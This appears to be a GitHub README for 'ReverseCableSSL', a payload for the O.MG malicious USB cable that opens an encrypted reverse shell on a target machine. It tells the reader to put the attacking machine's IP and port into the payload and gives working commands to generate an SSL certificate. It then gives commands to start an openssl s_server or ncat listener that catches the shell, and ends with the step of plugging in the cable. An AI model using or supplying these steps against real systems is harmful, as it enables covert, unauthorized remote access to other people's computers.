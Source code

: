 **Title: ReverseCableSSL**

<p>Author: 0iphor13<br>
Version: 1.0<br>
Requirements: OMG Firmware v.2.5 or higher</p>

**What is ReverseCableSSL?**
#
<p>ReverseCableSSL gets you remote access to your target in seconds.<br>
Unlike ReverseCable, ReverseCableSSL offers encrypted traffic via OpenSSL.</p>


**Instruction:**
<p>!!!Insert the IP of your attacking machine & PORT into the payload at the beginning!!!<br>
1. Create key.pem & cert.pem like so: openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes<br>
	> It will ask for information about the certificate - Insert whatever you want.<br>

2. For catching the shell you need to start a listener, which supports encrypted traffic.<br>
I recommend openssl itself or ncat - Example syntax for both:<br>
	> openssl s_server -quiet -key key.pem -cert cert.pem -port [Port Number] <br>
	> ncat --listen -p [Port Number] --ssl --ssl-cert cert.pem --ssl-key key.pem</p>

3. Plug in Cable.

![alt text](https://github.com/0iphor13/omg-payloads/blob/master/payloads/library/remote_access/ReverseCableSSL/CreateCert.png)
![alt text](https://github.com/0iphor13/omg-payloads/blob/master/payloads/library/remote_access/ReverseCableSSL/StartScreen.jpg)

